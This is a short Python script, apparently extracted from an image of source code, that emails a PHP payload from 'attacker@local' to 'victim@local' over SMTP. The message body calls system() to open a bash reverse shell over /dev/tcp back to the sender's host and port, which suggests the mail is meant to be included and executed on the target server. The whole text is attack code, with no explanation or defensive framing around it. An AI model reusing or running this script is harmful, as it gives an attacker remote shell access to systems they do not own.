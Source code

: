         lhost = "127.0.0.1"
        lport = 443
        rhost = "192.168.1.1"
        rport = 25 # 489,587

        # create message object instance
        msg = MIMEMultipart()

        # setup the parameters of the message
        password = "" 
        msg['From'] = "attacker@local"
        msg['To'] = "victim@local"
        msg['Subject'] = "This is not a drill!"

        # payload 
        message = ("<?php system('bash -i >& /dev/tcp/%s/%d 0>&1'); ?>" % (lhost,lport))

        print("[*] Payload is generated : %s" % message)

        msg.attach(MIMEText(message, 'plain'))
        server = smtplib.SMTP(host=rhost,port=rport)

        if server.noop()[0] != 250:
            print("[-]Connection Error")
            exit()

        server.starttls()

        # Uncomment if log-in with authencation
        # server.login(msg['From'], password)

        server.sendmail(msg['From'], msg['To'], msg.as_string())
        server.quit()

        print("[***]successfully sent email to %s:" % (msg['To']))  
